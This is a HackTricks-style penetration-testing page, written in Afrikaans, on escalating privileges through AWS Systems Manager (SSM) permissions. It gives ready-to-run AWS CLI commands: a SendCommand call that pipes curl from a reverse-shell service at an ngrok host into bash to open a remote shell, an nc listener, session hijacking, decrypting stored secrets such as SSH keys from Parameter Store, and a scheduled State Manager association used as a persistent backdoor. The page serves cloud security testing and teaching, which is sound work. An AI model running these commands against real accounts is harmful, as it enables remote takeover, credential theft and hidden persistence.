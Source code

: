 # AWS - SSM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SSM

Vir meer inligting oor SSM, kyk:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

'n Aanvaller met die toestemming **`ssm:SendCommand`** kan **opdragte uitvoer in instansies** wat die Amazon SSM Agent draai en **die IAM Rol** wat binne dit loop, **kompromitteer**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
In die geval dat jy hierdie tegniek gebruik om bevoegdhede binne 'n reeds gecompromitteerde EC2-instansie te verhoog, kan jy net die rev shell plaaslik vang met:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potensiële Impak:** Direkte privesc na die EC2 IAM rolle wat aan lopende instansies met SSM Agents gekoppel is.

### `ssm:StartSession`

'n Aanvaller met die toestemming **`ssm:StartSession`** kan **'n SSH-agtige sessie in instansies** wat die Amazon SSM Agent draai, **begin en die IAM Rol** wat binne dit loop, **kompromitteer**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
> [!CAUTION]
> Om 'n sessie te begin, moet die **SessionManagerPlugin** geïnstalleer wees: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**Potensiële Impak:** Direkte privesc na die EC2 IAM rolle wat aan lopende instansies met SSM Agents gekoppel is.

#### Privesc na ECS

Wanneer **ECS take** met **`ExecuteCommand` geaktiveer** loop, kan gebruikers met genoeg regte `ecs execute-command` gebruik om **'n opdrag** binne die houer uit te voer.\
Volgens [**die dokumentasie**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) word dit gedoen deur 'n veilige kanaal te skep tussen die toestel wat jy gebruik om die “_exec_“ opdrag te begin en die teikenhouer met SSM Session Manager. (SSM Session Manager Plugin is nodig vir dit om te werk)\
Daarom sal gebruikers met `ssm:StartSession` in staat wees om **'n shell binne ECS take** te verkry met daardie opsie geaktiveer deur net te loop:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../images/image (185).png>)

**Potensiële Impak:** Direkte privesc na die `ECS`IAM rolle wat aan lopende take met `ExecuteCommand` geaktiveer is, geheg is.

### `ssm:ResumeSession`

'n Aanvaller met die toestemming **`ssm:ResumeSession`** kan 'n **SSH-agtige sessie in instansies** wat die Amazon SSM Agent draai met 'n **afgekoppelde** SSM sessietoestand her-**begin en die IAM Rol** wat binne dit loop, kompromitteer.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potensiële Impak:** Direkte privesc na die EC2 IAM rolle wat aan lopende instansies met SSM Agents wat loop en ontkoppelde sessies geheg is.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

'n Aanvaller met die genoemde toestemmings gaan in staat wees om die **SSM parameters** te lys en **dit in duidelike teks te lees**. In hierdie parameters kan jy dikwels **sensitiewe inligting** soos SSH sleutels of API sleutels vind.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potensiële Impak:** Vind sensitiewe inligting binne die parameters.

### `ssm:ListCommands`

'n Aanvaller met hierdie toestemming kan al die **opdragte** lys wat gestuur is en hoopvol **sensitiewe inligting** daarop vind.
```
aws ssm list-commands
```
**Potensiële Impak:** Vind sensitiewe inligting binne die opdraglyne.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

'n Aanvaller met hierdie toestemmings kan al die **opdragte** lys wat gestuur is en **die uitvoer** lees wat gegenereer is, in die hoop om **sensitiewe inligting** daarop te vind.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die uitvoer van die opdraglyne.

### Gebruik van ssm:CreateAssociation

'n Aanvaller met die toestemming **`ssm:CreateAssociation`** kan 'n State Manager Association skep om outomaties opdragte op EC2-instances wat deur SSM bestuur word, uit te voer. Hierdie assosiasies kan gekonfigureer word om op 'n vaste interval te loop, wat hulle geskik maak vir agterdeur-agtige volharding sonder interaktiewe sessies.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> Hierdie volhardingsmetode werk solank die EC2-instantie deur Systems Manager bestuur word, die SSM-agent loop, en die aanvaller toestemming het om assosiasies te skep. Dit vereis nie interaktiewe sessies of eksplisiete ssm:SendCommand-toestemmings nie. **Belangrik:** Die `--schedule-expression` parameter (bv. `rate(30 minutes)`) moet AWS se minimum interval van 30 minute respekteer. Vir onmiddellike of eenmalige uitvoering, laat `--schedule-expression` heeltemal weg — die assosiasie sal een keer na skep uitgevoer word.

### Codebuild

Jy kan ook SSM gebruik om binne 'n codebuild-projek wat gebou word, te kom:

{{#ref}}
aws-codebuild-privesc.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
